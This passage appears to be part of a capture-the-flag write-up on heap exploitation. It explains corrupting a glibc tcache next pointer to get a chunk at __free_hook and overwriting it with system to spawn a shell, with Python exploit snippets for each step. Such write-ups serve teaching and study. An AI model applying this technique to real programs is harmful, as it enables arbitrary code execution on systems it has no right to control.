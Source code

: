 ## Tcache corruption to overwrite `__free_hook` / spawn a shell  
After leaking all the addresses, we can now turn to spawn a shell.  
The plan here is that we want a string to be allocated at the place of
`__free_hook` with controlled data.  
By setting the data to the address of `system`, this will then set
`__free_hook` to `system`, meaning we can execute shell commands by freeing
chunks.

We do the familar tcache next pointer corruption to achieve this. First, we
free some puzzles, so their structs will be placed into a tcache (a single-
linked list):

```python  
for i in range(5):  
   add_puzzle("tcache" + str(i), 1, b"\x01")

for i in range(5):  
   delete_puzzle(14)  
```

When we now allocate a new puzzle, the puzzle will be allocated in the first
chunk of the tcache.  
Using our primitive from before, we can overwrite a `next` pointer from
another chunk in the same tcache with this address.  
After this, our tcache will be cyclic (because the first chunk will appear
again later in tcache again).  
We then just need to allocate a string of the correct size and it'll end up in
the location of that puzzle, therefore allowing us to overwrite the `next`
pointer of a later chunk in the same tcache with arbitrary data.

```python  
tcache_next_addr = beg + 0x12c0  
# we need some valid puzzles to free, there appear to be some valid pointers
at beg + 0x1320  
write_puzzleptr_to(tcache_next_addr, base=beg + 0x1320)  
delete_puzzle(2)  
delete_puzzle(1)  
delete_puzzle(0)  
add_puzzle(flat({  
   0x0: p64(libc.symbols.__free_hook),  
}, length=0x31), 1, b"\x01")  
```

After this, we now allocate some more chunks until our `__free_hook` chunk is
at the correct place (the correct amount can be found with a debugger) in the
tcache linked list and then overwrite the `__free_hook` with system:

```python  
for _ in range(2):  
   add_puzzle("claim", 1, b"\x01")

add_puzzle(flat({  
   0x0: p64(libc.address + 0x55410),  
}, length=0x31), 1, b"\x01", check=False)

```
